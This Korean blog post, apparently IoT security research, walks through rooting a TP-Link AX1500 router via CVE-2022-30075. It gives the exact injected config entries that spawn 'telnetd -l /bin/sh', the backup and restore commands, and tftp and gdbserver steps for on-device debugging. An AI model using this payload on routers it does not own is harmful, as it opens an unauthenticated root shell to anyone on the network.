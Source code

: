 ```yaml
---
title: "TP-Link AX1500 1-day를 이용한 Shell 획득"
date: 2025-01-18 +0900
categories: [Hacking, IoT]
tags: ['iot', 'firmware', '1-day', 'uart']
image:
    path: "/assets/img/posts/2025-01-18-TP-Link-AX1500-1-day를-이용한-Shell-획득/image2.png"
    alt: "Get Shell"
    lqip: "/assets/img/posts/2025-01-18-TP-Link-AX1500-1-day를-이용한-Shell-획득/image2.png"
---
```


TP-Link AX1500 공유기의 쉘을 얻기 위한 마지막 방법인 **1-day exploit**를 이용한 방법입니다.

1. ~~Firmware Update 페이지~~ ❌
2. ~~CFE Console~~ 🤔
3. ~~UART를 통한 Shell 획득~~ ❌
4. **1-day를 이용한 Shell 획득**

## CVE-2022-30075

> https://github.com/gmaxus/TP-Link-Archer-AX1500-telnet-root/blob/main/README-eng.md
> https://github.com/aaronsvk/CVE-2022-30075

### 1.펌웨어 버전 다운그레이드
먼저 해당 취약점이 패치되기 전의 펌웨어로 다운그레이드가 필요합니다. 펌웨어 업그레이드 페이지에서 이전 버전의 펌웨어 파일을 업로드하고 "UPDATE" 버튼을 누르면 다운그레이드가 완료됩니다.
![alt text](/assets/img/posts/2025-01-18-TP-Link-AX1500-1-day를-이용한-Shell-획득/image.png)

### 2.현재 펌웨어 구성요소 백업
`python tplink.py -t 192.168.0.1 -p <password> -b` 를 실행하여 현재 펌웨어에 대한 구성 요소를 백업합니다.(`ori-backup-user-config.xml` 로 저장됨.)

### 3.태그 추가
`ori-backup-user-config.xml` 에 다음과 같은 태그를 추가해준다.
    
```xml
<button name="exploit">
<action>released</action>
<max>1999</max>
<handler>/usr/sbin/telnetd -l /bin/sh</handler>
<min>0</min>
<button>wifi</button>
</button>
```

```xml
<service name="exploit">
<ip_script>/usr/sbin/telnetd -l /bin/sh</ip_script>
<username>X</username>
<retry_unit>seconds</retry_unit>
<check_interval>12</check_interval>
<interface>internet</interface>
<enabled>on</enabled>
<force_unit>days</force_unit>
<check_unit>hours</check_unit>
<domain>x.example.org</domain>
<password>X</password>
<retry_interval>5</retry_interval>
<ip_source>script</ip_source>
<update_url>http://127.0.0.1/</update_url>
<force_interval>30</force_interval>
<retry_times>3</retry_times>
</service>
```
    
### 4.변경된 구성파일을 업로드
`python tplink.py -t 192.168.0.1 -p <password> -r ./ArcherAX10v120230220134n` 을 실행하여 구성파일을 업로드한다.

### 5. telnet 실행
`telnet 192.168.0.1` 실행

![alt text](/assets/img/posts/2025-01-18-TP-Link-AX1500-1-day를-이용한-Shell-획득/image2.png)

## 원격 디버깅
telnet 구동을 통해 원격으로 shell에 접근할 수 있기 때문에 실제 라우터에서 동작하는 바이너리를 분석할 수 있도록 gdbserver나 strace 등을 설치해야합니다.<br>

그러나 rootfs에 직접 write할 수 없기 때문에 `/tmp` 폴더에 설치해야합니다.

arm 아키텍처에 대한 gdbserver와 strace의 바이너리는 아래의 github repository에서 얻을 수 있습니다.
> https://github.com/therealsaumil/static-arm-bins/tree/master

1. tftp를 이용하여 로컬에서 tp-link로 파일 전송
```shell
tftp -r gdbserver-armel-static-8.0.1 -g 192.168.0.100
```

![alt text](/assets/img/posts/2025-01-18-TP-Link-AX1500-1-day를-이용한-Shell-획득/image3.png)

2. gdbserver 실행
```shell
./gdbserver-armel-static-8.0.1 :8888 --attach 7608
```
![alt text](/assets/img/posts/2025-01-18-TP-Link-AX1500-1-day를-이용한-Shell-획득/image4.png)